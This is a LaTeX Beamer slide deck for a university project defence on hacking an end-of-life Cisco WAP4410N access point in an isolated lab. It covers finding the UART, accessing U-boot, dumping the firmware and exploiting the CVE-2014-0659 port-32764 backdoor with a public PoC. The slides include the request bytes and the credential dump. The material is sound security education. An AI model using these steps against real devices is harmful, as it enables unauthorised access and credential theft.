\documentclass{beamer}

\usepackage{graphicx}
\usepackage{hyperref}
\usepackage{amsmath}
\usepackage{listings}
\usepackage{svg}

\graphicspath{{./assets/}}

\usetheme{Rochester}

\hypersetup{
    colorlinks=true,
    linkcolor=blue,
    filecolor=magenta,      
    urlcolor=cyan,
    pdftitle={Presentation},
    pdfpagemode=FullScreen,
}

\title{H550 project defence}
\subtitle{Exploitation of an old access point}
\author{Aguililla Klein Esteban}
\institute{ULB}
\date{2024}

\begin{document}

\frame{\titlepage}

\begin{frame}
	\frametitle{Context}
	\begin{columns}
		\column{0.5\textwidth}
		\begin{itemize}
			\item released in october 2008
			\item end of sale in 2014
			\item end of support in 2019
			\item aimed at small businesses
		\end{itemize}
		\column{0.5\textwidth}
		\begin{figure}
			\centering	
			
\includegraphics[width=\linewidth]{AP.jpg}
			\caption{WAP4410N Access Point}
		\end{figure}
	\end{columns}
\end{frame}
\begin{frame}
	\frametitle{lab setup}	
	\begin{figure}
		\centering	
		\scalebox{0.6}{
		\includesvg[scale=0.4]{assets/lab.svg}
		}
	\end{figure}
	\begin{itemize}
		\item local network without access to the internet
		\item the router is out of scope
	\end{itemize}
\end{frame}

\begin{frame}
	\frametitle{reconnaissance}
	\begin{columns}
		\column{0.5\textwidth}
		split into four parts, 
		\begin{enumerate}
			\item physical
			\item bootloader
			\item console
			\item network traffic
		\end{enumerate}
		\column{0.5\textwidth}
		\begin{itemize}
			\item architecture : 
				\begin{itemize}
					\item MIPS32
					\item big endian
				\end{itemize}
			\item memory :
				\begin{itemize}
					\item 48 TSOP NAND flash
					\item \href{https://www.alldatasheet.com/datasheet-pdf/view/267962/MCNIX/MX29LV640DBTC-90G.html}{MXIC-29LV640DBTC}
				\end{itemize}
			\item I/O :
				\begin{itemize}
					\item UART 3.3V
				\end{itemize}
		\end{itemize}
	\end{columns}
\end{frame}

\begin{frame}
	\frametitle{finding the uart}
	\begin{columns}
		\column{0.7\textwidth}	
		to find the UART, take measures with a multimeter
		\begin{center}
		\begin{tabular}{|c|c|c|c|}
			\hline
			pin & $R_{VSS}$ & $V$ & info \\ 
			\hline
			1 & $8.6k\Omega$ & $\approx 3.3V$ & VCC \\
			2 & $\infty k\Omega$ & $\approx 0V$ & TX\\
			3 & $\infty k\Omega$ & $\approx 0V - VCC$ & RX \\
			4 & $0$ k $\Omega$ & $0V$ & GND \\
			\hline
		\end{tabular}
		\end{center}
		in some cases it might be disabled, broken, \dots
		\column{0.3\textwidth}	
		\begin{figure}
			\centering	
			\scalebox{0.5}{
			\includesvg[scale=0.5,angle=90]{assets/uart.svg}
		}
		\end{figure}
	\end{columns}
\end{frame}

\begin{frame}[fragile]
	\frametitle{bootloader}	
	after connecting to the uart,
	\begin{itemize}
		\item boot log (a lot of useful information)
		\item can interrupt autoboot and get to U-boot console
	\end{itemize}
	in the U-boot console,
	\begin{itemize}
		\item unprotected
		\item reduced subset of U-boot (or is it due to the age ?)
		\item info about the hw, firmware, \alert{memory layout}
	\end{itemize}
	\begin{verbatim}
	ar7100> bdinfo
	flashstart  = 0xBF000000
	flashsize   = 0x00800000
	flashoffset = 0x0002F690
	\end{verbatim}
\end{frame}

\begin{frame}[fragile]
	\frametitle{console}
	\begin{columns}
		\column{0.3\textwidth}	
		\begin{itemize}
			\item ash shell
			\item busybox
				\begin{itemize}
					\item old version
					\item reduced
				\end{itemize}
			\item root user
			\item squashfs3
				\begin{itemize}
					\item readonly	
				\end{itemize}
			\item utilities for handling the device internals

		\end{itemize}
		\column{0.7\textwidth}
		extracting the partition table,
		\begin{verbatim}
[VAP0 @ wap86eb04]# cat /proc/mtd    
dev:    size   erasesize  name  
mtd0: 00040000 00010000 "u-boot"  
mtd1: 00010000 00010000 "u-boot-env"  
mtd2: 00650000 00010000 "rootfs"  
mtd3: 00140000 00010000 "uImage"  
mtd4: 00010000 00010000 "nvram"  
mtd5: 00010000 00010000 "calibration"	
		\end{verbatim}
		firmware version : Software Version: 2.0.4.2
	\end{columns}
\end{frame}

\begin{frame}[fragile]
	\frametitle{network}
	port scan with nmap,
	\begin{verbatim}
Nmap scan report for wap86eb04 (192.168.1.3)  
Host is up (0.012s latency).  
Not shown: 65532 closed tcp ports (reset)  
PORT      STATE SERVICE  
80/tcp    open  http  
443/tcp   open  https  
32764/tcp open  unknown  
MAC Address: CC:EF:48:86:EB:04 (Cisco Systems)
	\end{verbatim}
	\begin{itemize}
		\item the http(s) service are used for the web portal
			\begin{itemize}
				when using http, the credentials are sent as base64 encoded cookies	
			\end{itemize}
		\item the 32764 tcp port is an undocumented port related to \href{https://nvd.nist.gov/vuln/detail/CVE-2014-0659}{CVE-2014-0659}
	\end{itemize}
\end{frame}

\begin{frame}
	\frametitle{exploitation}
	\begin{enumerate}
		\item dump the firmware
		\item play with the consoles
		\item try the CVE
	\end{enumerate}
\end{frame}
\begin{frame}
	\frametitle{dumping the firmware}	
	at first through the UART,
	\begin{itemize}
		\item long process ~1 hour
		\item output must be processed
		\item highly corrupted : binwalk and unsquashf both failed
	\end{itemize}
	\begin{block}{why was it corrupted ?}
		some possible suspects : uboot is broken (in some way), bad cable/ftdi, out of bound area on the flash
	\end{block}
\end{frame}

\begin{frame}[fragile]
	\frametitle{dumping the firmware - cont'd}	
	through the root console,
	\begin{enumerate}
		\item setup a ftp server on computer
		\item navigate to /tmp	
		\item download the latest binary for busybox mipsbe
		\item use the new busybox netcat to extract every mtd block in /dev
		\item cat together the blocks $\rightarrow$ this is the firmware !!!
	\end{enumerate}
		
	\begin{lstlisting}[basicstyle=\fontsize{0.5}{0.5}\selectfont\ttfamily, ]
                  /home/aaaaaa/aaaaaaaaa/aaa/aaaaaaaaaaaa/dump/firmware2.0.4.2.bin
-----------------------------------------------------------------------------------------------------
DECIMAL                            HEXADECIMAL                        DESCRIPTION
-----------------------------------------------------------------------------------------------------
158992                             0x26D10                            CRC32 polynomial table, big 
                                                                      endian
327680                             0x50000                            SquashFS file system, big 
                                                                      endian, version: 3.0, 
                                                                      compression: unknown, inode 
                                                                      count: 794, block size: 65536, 
          cve-                                                            image size: 4761817 bytes, 
                                                                      created: 2011-05-13 10:54:02
6946816                            0x6A0000                           uImage firmware image, header 
                                                                      size: 64 bytes, data size: 
                                                                      875547 bytes, compression: 
                                                                      gzip, CPU: MIPS32, OS: Linux, 
                                                                      image type: OS Kernel Image, 
                                                                      load address: 0x80002000, 
                                                                      entry point: 0x801C2000, 
                                                                      creation time: 2011-05-13 
                                                                      10:51:49, image name: "Linux 
                                                                      Kernel Image"
8269351                            0x7E2E27                           PEM private key
8270238                            0x7E319E                           PEM certificate
-----------------------------------------------------------------------------------------------------

	\end{lstlisting}
\end{frame}

\begin{frame}
	\frametitle{CVE-2014-0659}	

	\begin{itemize}
		\item backdoor planted by SerComm
		\item in the binary /usr/sbin/scfgmgr
	\end{itemize}

	"pinging" the port with telnet, will generate prop a console then will generate the following traffic,
	\begin{figure} 
		
\includegraphics[width=\textwidth]{example.png}
	\end{figure}
	\begin{itemize}
		\item packet 399 the data sent over the console (in this case hello)
		\item the AP answer with 53 63 4d 4d ff ff ff ff 00 00 00 00
		\item 53 63 4d 4d in text is ScMM which corresponds to what we get on the terminal
	\end{itemize}
\end{frame}

\begin{frame}
	\frametitle{CVE-2014-0659 - cont'd}	
	based on the work of \href{https://github.com/elvanderb/TCP-32764}{Eloi Vanderbken},
	\begin{itemize}
		\item with hard coded some value to fit my context 
		\item using the example given in the repo, python poc.py --get_credentials --ip 192.168.1.3
	\end{itemize}
	\begin{itemize}
		\item we send 53 63 4d 4d 00 00 00 01 00 00 00 01 00
		\item we receive all the credentials	
	\end{itemize}
\end{frame}
\begin{frame}[fragile]
	\frametitle{CVE-2014-0659 - cont'd}	
	\begin{lstlisting}[basicstyle=\small\ttfamily,columns=flexible,breaklines=true]
sys_name=wap86eb04sys_desc=WAP4410Nsys_domain=276sys_domain_suffix=sys_lang=ensecret_mask=0eth_data_rate=autolan_force100m=0lan_dhcpc=1lan_ipaddr=192.168.1.3lan_netmask=255.255.255.0lan_gateway=192.168.1.1lan_dns1=192.168.1.1lan_dns2=0.0.0.0lan_ipv6=0lan_dhcp6c=0lan_radvd=1lan_ipaddrv6=lan_gatewayv6=lan_dnsv61=lan_dnsv62=lan_dhcps=0lan_dhcps_start=lan_dhcps_end=wins_server=tod_enable=0tod_mon=1tod_day=1tod_year=2008tod_hour=0tod_min=0tod_sec=0ntp_mode=0ntp_server=timezone_diff=005-08:00timezone_daylightsaving=0ftp_server=ftp_path=ftp_login_name=ftp_password=vlan_mode=0vlan_list=1,vlan_management=1vlan_default=1vlan_default_tag=0vlan_wds_tag=0wds_vlan_list=eth_supp_mode=0eth_supp_mac=1eth_supp_user=eth_supp_pwd=autohttps=0http_mode=1http_port=80https_mode=0https_port=443wlan_manage=1SSH=0telnet_mode=0telnet_timeout=300rogue_mode=0rogue_interval=3rogue_type=0
	\end{lstlisting}	
\end{frame}

\end{document}
